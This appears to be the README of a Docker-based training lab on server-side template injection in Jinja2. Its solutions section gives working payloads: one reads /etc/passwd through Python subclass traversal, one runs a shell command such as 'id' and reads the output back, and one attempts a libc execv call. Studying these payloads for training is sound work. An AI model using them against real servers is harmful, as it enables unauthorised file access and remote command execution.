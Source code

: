 


# Server-Side Template Injection (SSTI)

## Build instructions

Requirements:
 - Docker
 - Docker-compose

## Solutions

```
{{''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd","r").read() }}
```

```
[40]:  <type 'file'>
[59]: <class 'warnings.catch_warnings'>
WARNINGS.__init__.func_globals['linecache'].__dict__.values()[12] : <module 'os' from '/usr/lib/python2.7/os.pyc'>
```

Executing command and storing the result temporary in the temp folder:
```
{{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd') }}{{''.__class__.__mro__[2].__subclasses__()[40]("/tmp/cmd","r").read() }}
```

 - https://hexplo.it/escaping-the-csawctf-python-sandbox/

### Libc attempt

```
{{ self.__class__.__mro__[1].__subclasses__()[226]('libc-2.23.so').execv('/bin/touch','/tmp/1234') }}
```

### TPLMap (not working)

(Tool that is not working well on jinja2)
https://github.com/epinna/tplmap
